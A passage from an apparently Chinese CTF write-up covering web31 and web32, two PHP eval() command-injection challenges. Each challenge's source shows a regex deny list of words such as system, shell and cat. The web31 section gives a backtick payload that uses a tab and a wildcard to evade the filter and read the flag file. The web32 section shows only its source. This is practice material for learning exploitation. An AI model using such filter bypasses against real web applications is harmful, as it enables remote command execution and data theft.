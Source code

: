 得到flag

------



#### web31

```php
 <?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```



```
?参数=echo(`指令`);
system可以用 ` 反引号来代替去执行命令
所以也可以用
?参数=echo`指令`;
```

**payload**

```
?c=echo(`tac%09f*`);
```

------

#### web32

```php
 <?php


error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```
